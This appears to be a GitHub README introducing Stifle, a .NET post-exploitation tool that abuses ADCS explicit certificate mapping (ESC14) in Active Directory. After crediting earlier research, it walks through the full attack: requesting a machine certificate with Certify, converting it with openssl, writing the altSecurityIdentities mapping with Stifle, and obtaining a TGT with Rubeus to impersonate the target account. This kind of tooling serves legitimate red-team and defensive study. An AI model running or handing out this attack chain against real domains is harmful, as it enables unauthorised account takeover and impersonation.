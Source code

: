 # Description
Nearly a year ago, Jonas Knudsen ([@Jonas_B_K](https://x.com/Jonas_B_K)) over at SpecterOps published a blog titled “ADCS ESC14 Abuse Technique”, covering a previously known technique for leveraging Active Directory Certificate Services (ADCS) for multiple types of account takeover via explicit certificate mapping. He published a collection of PowerShell tooling used for generating and writing the `altSecurityIdentities` attribute as part of the primary variation of the abuse technique. Since this technique could be seen as the third main method of account takeover when holding a write primitive over an object (along with RBCD and Shadow Credentials), I thought it needed its own .NET tooling since I noticed there hasn't been a single release for the past year. 

Introducing Stifle, an extremely simple .NET post-exploitation utility that uses a passed certificate to set explicit certificate mapping on a target object, allowing authentication as the target object using the already held certificate mapped. 

```
   _____ _   _  __ _
  / ____| | (_)/ _| |
 | (___ | |_ _| |_| | ___
  \___ \| __| |  _| |/ _ \
  ____) | |_| | | | |  __/
 |_____/ \__|_|_| |_|\___|

 [*] Exploit explicit certificate mapping in Active Directory

 [*] Add an explicit certificate mapping on a target object by writing the required altSecurityIdentities value using a certificate and the certificate password:
        Stifle.exe add /object:target /certificate:MIIMrQI... /password:P@ssw0rd

 [*] Clear the altSecurityIdentities attribute, removing the explicit certificate mapping:
        Stifle.exe clear /object:target
```

# Use
First request a certificate using Certify that the target object will be mapped to (Note the certificate requested must be a machine account certificate):
```
Certify.exe request /ca:lab.lan\lab-dc01-ca /template:Machine /machine
```
![image](https://github.com/user-attachments/assets/6472d40d-333e-47a9-9f34-19380eec2463)

Then copy the certificate information into a `.pem` file and use the openssl binary on a unix-based system to convert to base64 `.pfx` format:
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export | base64 -w 0
```

Next copy the exported certificate and exported certificate password into Stifle, which will generate a certificate mapping string and write it to the target objects `altSecurityIdentities` attribute:
```
Stifle.exe add /object:target /certificate:MIIMrQI... /password:P@ssw0rd
```
![image](https://github.com/user-attachments/assets/bfa06572-ac53-400f-8795-4542b89a41f8)


Finally request a TGT using PKINIT authentication, effectively impersonating the target user with Rubeus:
```
Rubeus.exe asktgt /user:target /certificate:MIIMrQI... /password:P@ssw0rd
```
![image](https://github.com/user-attachments/assets/9e7045cf-ef52-4fd4-a380-592f28080a15)


